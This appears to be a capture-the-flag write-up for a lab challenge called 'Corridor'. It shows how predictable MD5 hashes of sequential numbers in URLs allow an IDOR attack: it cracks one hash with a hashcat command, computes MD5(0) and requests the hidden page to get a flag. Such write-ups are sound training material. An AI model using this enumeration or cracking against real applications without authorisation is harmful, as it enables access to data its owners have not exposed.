



# IDOR in Corridor Allows Unauthorized Access to Hidden Pages via Predictable MD5 References


## Summary

An IDOR vulnerability exists in the Corridor web application, allowing unauthorized access to hidden pages by manipulating predictable MD5-based URL references.

The application uses MD5 hashes generated from sequential numbers as resource identifiers. Since these values are predictable, an attacker can generate valid references and enumerate pages that were not intended to be publicly accessible.


## Description

The Corridor application uses MD5 hashes as URL references to access different pages.

These hashes are generated from sequential numbers, but the application does not implement any additional authorization mechanism to prevent users from discovering or accessing other valid references.

By identifying the hashing pattern and generating corresponding MD5 values, an attacker can enumerate hidden pages by replacing the hash value in the URL with another predictable reference.

This results in an IDOR vulnerability because direct object references can be accessed without proper authorization validation.


## Steps to Reproduce

1. Access the Corridor web application.

2. Inspect the HTML source code and identify URL references containing MD5 hashes.

Example:

```

c4ca4238a0b923820dcc509a6f75849b

```

3. Notice that the discovered MD5 hashes follow a sequential pattern:

```

MD5(1) = c4ca4238a0b923820dcc509a6f75849b

MD5(2) = c81e728d9d4c2f636f067f89cc14862c

MD5(3) = eccbc87e4b5ce2fe28308fd9f2a7baf3

```

4. Identify that the hashes are generated from sequential numbers.

5. Generate the previous reference value:

```

MD5(0) = cfcd208495d565ef66e7dff9f98764da

```

6. Replace the hash value in the URL with the generated MD5 hash:

```

http://TARGET/cfcd208495d565ef66e7dff9f98764da

```

7. The application returns a page that was not intended to be accessible through normal navigation.

8. The page contains the flag:

```

flag{Try_It_By_YourSelf}

```


## Proof Of Concept (POC)


### 1. Discovering MD5 Hash References

The HTML source code contains multiple URL references using MD5 hashes instead of normal IDs.




---
### 2. Cracking the MD5 Hash

The first hash was tested using Hashcat to confirm the original value.

Command:

```bash
hashcat -m 0 c4ca4238a0b923820dcc509a6f75849b rockyou.txt
````

Result:

```
c4ca4238a0b923820dcc509a6f75849b : 1
```



---

### 3. Identifying the MD5 Hash Pattern

The discovered hashes were analyzed and found to be generated from sequential numbers.

Example:

```

MD5(1) = c4ca4238a0b923820dcc509a6f75849b

MD5(2) = c81e728d9d4c2f636f067f89cc14862c

MD5(3) = eccbc87e4b5ce2fe28308fd9f2a7baf3

````


---

### 4. Generating the Previous Reference

After discovering that the hashes follow a sequential pattern, the previous value was generated.

The MD5 hash of `0` was calculated:

```
MD5(0) = cfcd208495d565ef66e7dff9f98764da
```



---

### 5. Accessing the Hidden Page

The generated hash was used as a URL path:

```
http://IP/cfcd208495d565ef66e7dff9f98764da
```

The application returned a hidden page containing the flag.


Flag:

```
flag{Try_It_By_YourSelf}
```

---
